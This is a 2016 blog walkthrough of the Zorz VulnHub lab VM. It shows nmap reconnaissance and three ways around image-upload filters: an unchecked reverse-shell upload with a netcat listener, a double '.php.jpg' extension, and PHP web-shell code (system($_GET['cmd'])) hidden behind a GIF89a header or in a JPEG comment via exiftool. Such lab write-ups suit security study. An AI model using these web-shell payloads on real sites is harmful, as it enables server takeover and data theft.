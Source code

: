 ```yaml
---
layout: post
title: Walkthrough Zorz
date: 2016-04-24 14:41:58.000000000 -03:00
type: post
published: true
status: publish
categories: []
tags:
- pen-testing
- security
- vulnhub
meta:
  _oembed_eec5dec5a08fd8d8d07381ab6eeaa95c: "{{unknown}}"
  _oembed_c72a6cd3e0b256ba14674e6e0a82302c: "{{unknown}}"
  _oembed_13e9cd768e25642c3e33583a9c66311b: "{{unknown}}"
  _oembed_9ac2122a7f160d7153740779af7b2e97: "{{unknown}}"
  _oembed_cbb863ad1e50e972b94eabf7b3de02e0: "{{unknown}}"
  _oembed_7b0ab40e0ec5e03d8cc9a4604a5172d8: "{{unknown}}"
  _oembed_f33e9faa7870affabb269ae39327f8f6: "{{unknown}}"
  _rest_api_published: '1'
  _rest_api_client_id: "-1"
  _publicize_job_id: '22116067033'
  _oembed_4f3c57ffbb9cca9ebed2ebaa58398216: "{{unknown}}"
  _oembed_87595add559759089909b230abd667ea: "{{unknown}}"
  _oembed_b84c7e6d53d0923db26206f282efcf88: "{{unknown}}"
  _oembed_47d8ee5beb0df89ddd226f5ec74265f0: "{{unknown}}"
  _oembed_406cda81d30521a47b69c7bda6fbc17f: "{{unknown}}"
author:
  login: tidlost
  email: tl.dr.mfw@gmail.com
  display_name: tidlost
  first_name: ''
  last_name: ''
---
```



I have been playing around with another vulnerable VM, this one is called Zorz, and can be found [here on vulnhub.](https://www.vulnhub.com/entry/tophatsec-zorz,117/) It is made by [Top-hat-sec.](https://www.top-hat-sec.com/r4v3ns-blog/another-vm-challenge-zorz)
First I imported the VM, but it automatically used eth0, instead of wlan. So once that was changed I could find the machine when I did my scan.

```
nmap -v 192.168.1.1/24
```

I have started running nmap in verbose mode, because it can be fun to see how nmap is working, and especially if it is really slow, and I start to doubt that everything is really working as it should.

```
sudo nmap -A -T4 -p- 192.168.1.104
```


So this stands for `-A`: Aggressive, and it includes: OS detection, version detection, script scanning, and traceroute.
`-T4` is how fast the scanning should be. `-T4` is "aggressive", but not `-T5` "insane". So it works out fast, but still reliable. Although it doesn't really matter. I think it is more useful when you need to scan hundreds of networks. In how much of a hurry you are. Granted T0 is slooow. `-T3` is the default.

```
Starting Nmap 7.00 ( https://nmap.org ) at 2016-04-23 21:23 CLST
Nmap scan report for zorz.dev (192.168.1.104)
Host is up (0.0011s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 48:bb:d8:38:b8:25:a6:6c:5e:7f:67:c9:ec:53:cc:ed (DSA)
|   2048 ec:55:48:93:28:90:f6:bf:3c:cd:e3:90:42:26:3b:5d (RSA)
|_  256 3f:0a:11:c9:59:73:be:df:f7:77:59:65:07:91:d7:d6 (ECDSA)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:9A:0D:2F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS out CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.0
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT     ADDRESS
1   1.08 ms zorz.dev (192.168.1.104)
```

Okay, so we just have ssh and 80. Let's start ZAP and Dir-browsing, because that can take some time. And let that roll while we checkout the browser.

## Challenge 1
So we find three challenges. Three ways to upload images to the server. So I guess that we want to bypass the image-restrictions and upload shells instead.
The first one was really straight-forward. It didn't really do any check. So I could just upload php-reverse-shell.php without any problems. But where was the file? I continued to play with Challenge 2 and 3. On the third one it says where the file was uploaded. It was uploaded into a dir called uploads3. So I figured the files for challenge 1 and 2 were to be found in uploads1 and uploads 2.
So I opened port 1234 in the firewall with the command:

```
ufw allow 1234
```

And then I used netcat to start listening in on that port, and get ready for the shell.

```
nc -v -l 1234
```

So `-v` stands for verbose. `-l` for listen. So that netcat know that it should listed for a incoming connection, and not establish connection itself. 1234 is the port that it should listen to.

Now we just click on the shell-file in uploads1 and the server connects to netcat.
So year, this was pretty easy. Basically no check whatsoever.

## Challenge 2
Now it is getting a bit more difficult. We cannot upload file that does not end with .png, .jpg, .gif.
But instead we can just rename our shell and upload it as shell.php.jpg. It passed the filter and the file is executed as php.

## Challenge 3
This challenge was a bit harder. Because somehow it was checking to see if the file itself was an image. I found to ways to bypass this check.
From this [great tutorial](http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html) I learned how to get around it. Basically you just add the text "GIF89a;" before you shell-code. So it would look something like this:

```
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
``` 
So that worked and I managed to get a shell up and running.
The second way to beat this challenge is to add the shell-code into a comment of a image-file.
First I looked for a simple jpg file online "jpg file:jpg". And then I inserted the php-code into the image comment with the following command.
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg
```
Exiftool is a great tool to view and manipulate exif-data.
Then I had to rename the file
```
mv lo.jpg lo.php.jpg
```
Then upload it. When I then click on it the browser just outputs jibberish.
```
http://zorz.dev/uploads1/lo.php.jpg?cmd=ls
```
So when we run this in the browser it outputs the result on the webpage. So yeah, we have a shell.
Then we can move to
http://zorz.dev/uploads1/lo.php.jpg?cmd=cat%20/var/www/html/l337saucel337/SECRETFILE
And see the win-file.
There are many more tricks to bypass fileupload restrictions. Here are some:
https://pentestlab.wordpress.com/2012/11/29/bypassing-file-upload-restrictions/
http://www.securityidiots.com/Web-Pentest/hacking-website-by-shell-uploading.html
